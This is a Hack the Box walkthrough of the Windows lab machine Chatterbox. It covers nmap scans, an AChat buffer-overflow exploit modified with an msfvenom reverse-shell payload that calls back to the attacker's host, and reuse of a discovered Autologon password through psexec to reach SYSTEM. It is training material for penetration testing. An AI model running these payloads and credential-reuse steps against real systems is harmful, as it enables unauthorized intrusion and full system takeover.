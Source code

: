 ```yaml
---
title: Hack the Box - Chatterbox
date: 2022-10-06 12:00:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Chatterbox](/assets/HackTheBox/Chatterbox/Chatterbox.png)

# Bounty Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.74|Chatterbox|Windows|

## Path to Exploitation

To complete Chatterbox we'll start by leveraging a buffer overflow vulnerability in an outdated chat server with a publicly available exploit. Once we modify the payload in the script we'll get a reverse shell back on our machine. To escalate our privileges, we'll reuse a weak password that we were able to identify and gain access to the administrator account. 

# Chatterbox Enumeration

## Full Port Scan

```shell
$ nmap 10.10.10.74 -p- -oA Chatterbox/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|9255|mon|
|9256|unknown|
|49152|unknown|
|49153|unknown|
|49154|unknown|
|49155|unknown|
|49156|unknown|
|49157|unknown|

## Service Scan

```shell
$ nmap 10.10.10.74 -p 9255,9256,49152,49153,49154,49155,49156,49157 -sC -sV -oA Chatterbox/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|9255|http|chat system httpd|
|9256|achat|chat system|
|49152|msrpc|Windows RPC|
|49153|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|
|49155|msrpc|Windows RPC|
|49156|msrpc|Windows RPC|
|49157|msrpc|Windows RPC|

# Exploiting the AChat Server

I did a simple google search of this AChat service and found a potential exploit that I could use. The [exploit](https://www.exploit-db.com/exploits/36025)is a remote buffer overflow.

Inside the script we see the command needed to generate the payload

```shell
$ msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

We'll need to modify this command to create a reverse shell payload instead of executing calc.exe

```shell
$ msfvenom -p windows/shell_reverse_tcp -a x86 --platform Windows LHOST=10.10.14.8 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

After creating this payload and modifying the script with it, we can setup a nc listener and launch the exploit

```shell
python exploit.py
```

Checking back on the listener we see we have a shell as alfred
![Initial Foothold](/assets/HackTheBox/Chatterbox/initial-foothold.png)

# Privilege Escalation

Running winpeas we identify a set of Autologon credentials

![Autologon Credentials](/assets/HacktheBox/Chatterbox/autologon-creds.png)

We can try re-using this password with the administrator account using PsExec

```shell
$ python /home/pharo/.local/bin/psexec.py Administrator:"Welcome1\!"@10.10.10.74
```
![Autologon Credentials](/assets/HacktheBox/Chatterbox/priv-esc.png)

We can see that we now have a session running as SYSTEM.